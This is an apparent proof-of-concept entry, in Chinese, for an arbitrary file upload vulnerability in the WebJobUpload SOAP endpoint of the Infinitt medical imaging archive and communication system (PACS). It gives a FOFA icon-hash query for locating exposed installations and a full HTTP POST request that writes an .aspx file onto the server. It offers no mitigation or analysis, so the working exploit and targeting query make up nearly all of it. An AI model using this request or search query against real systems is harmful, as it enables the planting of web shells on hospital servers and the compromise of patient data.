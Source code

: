 ## 英飞达医学影像存档与通信系统WebJobUpload任意文件上传漏洞

## fofa
```
icon_hash="1474455751" || icon_hash="702238928"
```

![26c19e0fd94f9ed212609cbb142a5efc](../../images/06bbb356-9749-45e7-80bf-868a611936cb.png)

## poc
```
POST /webservices/WebJobUpload.asmx HTTP/1.1
Host: 0.0.0.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Length: 410
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Soapaction: "http://rainier/jobUpload"
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<jobUpload xmlns="http://rainier">
<vcode>1</vcode>
<subFolder></subFolder>
<fileName>test.aspx</fileName>
<bufValue>dGVzdA==</bufValue>
</jobUpload>
</soap:Body>
</soap:Envelope>
```


![ee4dcedec011b388f84d3086e9b84fbd](../../images/1396d267-c32e-4452-af68-a2a4a9ba45ad.png)
